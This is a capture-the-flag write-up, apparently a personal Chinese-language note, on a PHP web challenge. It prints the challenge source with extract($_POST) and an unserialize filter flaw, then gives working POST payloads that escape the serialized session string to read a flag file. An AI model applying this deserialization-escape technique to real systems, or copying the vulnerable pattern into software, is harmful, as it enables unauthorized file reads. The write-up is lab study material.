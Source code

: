 ![[Pasted image 20221119110645.png]]

---
首页长这样

![[Pasted image 20221119110705.png]]

---
点开之后是源码
```php
<?php

$function = @$_GET['f'];

function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}


if($_SESSION){
    unset($_SESSION);
}

$_SESSION["user"] = 'guest';
$_SESSION['function'] = $function;

extract($_POST);

if(!$function){
    echo '<a href="index.php?f=highlight_file">source_code</a>';
}

if(!$_GET['img_path']){
    $_SESSION['img'] = base64_encode('guest_img.png');
}else{
    $_SESSION['img'] = sha1(base64_encode($_GET['img_path']));
}

$serialize_info = filter(serialize($_SESSION));

if($function == 'highlight_file'){
    highlight_file('index.php');
}else if($function == 'phpinfo'){
    eval('phpinfo();'); //maybe you can find something in here!
}else if($function == 'show_image'){
    $userinfo = unserialize($serialize_info);
    echo file_get_contents(base64_decode($userinfo['img']));
} 
```

---
提示我们可能能在`phpinfo`中找到好东西
```php
/?f=phpinfo
```

![[Pasted image 20221119113417.png]]

果不其然发现了存放`flag`的文件名`

---
考虑到`filter`函数作用于序列化后的字符串

总体思路就是利用反序列化字符串逃逸使得`$userinfo['img']`结果为`base64_encode('d0g3_f1ag.php')`

部署到本地再加了两句

![[Pasted image 20221119212823.png]]
```php
_SESSION[phpfl1g]=;s:3:"123";s:3:"img";s:3:"abc";}
```
不得不吐槽php这语言各方面都好宽松QwQ

![[Pasted image 20221119212806.png]]

---
放靶机上跑去

url
```php
/?f=show_image
```
POST
```php
_SESSION[phpfl1g]=;s:3:"123";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}
```
![[Pasted image 20221119213410.png]]

再来一步
```php
_SESSION[phpfl1g]=;s:3:"123";s:3:"img";s:20:"L2QwZzNfZmxsbGxsbGFn";}
```
![[Pasted image 20221119213746.png]]

#Web #PHP #反序列化 #字符串逃逸